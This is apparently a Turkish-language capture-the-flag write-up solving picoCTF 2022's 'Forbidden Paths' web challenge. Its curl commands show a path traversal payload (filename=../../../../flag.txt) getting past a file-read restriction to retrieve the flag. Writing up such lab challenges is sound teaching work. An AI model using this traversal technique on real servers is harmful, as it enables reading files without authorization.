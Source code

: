 ```yaml
---
title: 'picoCTF 2022 | Forbidden Paths WriteUp'
author: appdone
categories: [picoCTF 2022 Challenges]
render_with_liquid: false
---
```


Bu yazıda, picoCTF platformunda yer alan "Forbidden Paths" isimli meydan okumayı çözeceğiz. Meydan okumanın açıklamasında, web sitesindeki  dosyaların /usr/share/nginx/html/ dizininde olduğu ve bayrağın /flag.txt dosyasında olduğu yazıyor.

```console
C:\Users\Appdone\Desktop>curl http://saturn.picoctf.net:55055
...
    <h1>Web eReader</h1>
    <p>..</p>
    <p>divine-comedy.txt</p>
    <p>oliver-twist.txt</p>
    <p>the-happy-prince.txt</p>

    <form role="form" action="read.php" method="post">
      <input type="text" name="filename" placeholder="Filename" required></br>
      <button type="submit" name="read">Read</button>
    </form>
...
```

Web uygulamasında, girilen dosyanın içeriğini başka bir sayfaya dahil eden bir form bulunuyor. Doğrudan /flag.txt olarak sayfaya dahil etmeye çalıştığımızda aşağıdaki hatayı alıyoruz.

```console
C:\Users\Appdone\Desktop>curl http://saturn.picoctf.net:55055/read.php -X POST -d "filename=/flag.txt"
...
Not Authorized
```

Web uygulamasının bulunduğu dizinin /usr/share/nginx/html/ olduğunu biliyoruz. Bu durumda başına "../" ifadesini kök dizine gelene kadar kullanırsak bir ihtimal bayrağın bulunduğu dosyayı görüntüleyebiliriz. "../" ifadesi bir alt satır demektir. bu ifadeyi yan yana 4 kez kullandığımızda kök dizine ulaşmış oluruz.

```console
C:\Users\Appdone\Desktop>curl http://saturn.picoctf.net:55055/read.php -X POST -d "filename=../../../../flag.txt"
...
picoCTF{***}
...
```
